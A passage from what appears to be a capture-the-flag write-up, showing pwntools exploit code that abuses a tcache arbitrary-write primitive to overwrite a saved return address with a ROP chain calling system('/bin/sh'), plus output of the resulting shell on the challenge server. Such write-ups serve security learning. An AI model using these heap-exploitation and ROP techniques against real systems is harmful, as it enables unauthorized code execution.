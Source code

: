 ### Testing our arbitrary write primitive

Let's try to write something into RIP!

```python
WWW(environ-0x120, 0xc01db0075)
```

Output:

```
    b'malloc(): unaligned tcache chunk detected\n'
    b'\n'
    b'Child terminated with signal = 0x6 (SIGABRT)\n'
```

We are getting alignment issues as we are trying to "allocate" a tcache chunk which is not aligned the way heap chunks usually are. it's a 16 byte alignment so we need to subtract 8 to get it right. This will overwrite one 64bit word before the RIP, which is the stored stack base pointer, RBP, of the previous stack frame. That's usually fine, so let's try:

Let's even try with a ROP chain while we're at it.

```python
rop = ROP(libc)
rop.raw(rop.ret.address) # har du aligna stacken ?
rop.system(next(libc.search(b'/bin/sh\0')))
payload = p64(0) + bytes(rop.chain())

# Trying my best to forget about C and be more pythonic.
for IDX,WAT in enumerate([ payload[i:i+16] for i in range(0,len(payload),16) ]):
    WWW(environ - 0x120-8 + 16*IDX, WAT)
```
This should have worked, but when writing 16 bytes at a time I keep getting problems with extra bytes because of the sendline-function in the Write method. After some trial and error and frustration with extra bytes it ended up like this to finally work.

```python
def Write(Index, Value):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'index: ', str(Index).encode())
    if (len(Value) == 0x10):
        io.sendafter(b'value: ', Value[:0x0f])
    else:
        io.sendlineafter(b'value: ', Value)
```

Then finally send an illegal command to return from main.

```python
io.sendlineafter(b'> ', b'7'
```

```
[+] Opening connection to io.ept.gg on port 30001: Done
[*] Libc @ 0x7fb546e4d000
[*] Value_0: 0x55c96161b
[*] Value_1: 0x55cc3df7a4bb
[*] environ @ 0x7ffcaff1da08
[*] Loaded 218 cached gadgets for './libc.2.35.so'
[*] Switching to interactive mode
out of range.
$ whoami
ept
$ ls -la
total 52
drwxr-xr-x 1 root root    82 Oct 22 15:59 .
drwxr-xr-x 1 root root    17 Oct 22 15:59 ..
-rwxr-xr-x 1 root root   220 Jan  6  2022 .bash_logout
-rwxr-xr-x 1 root root  3771 Jan  6  2022 .bashrc
```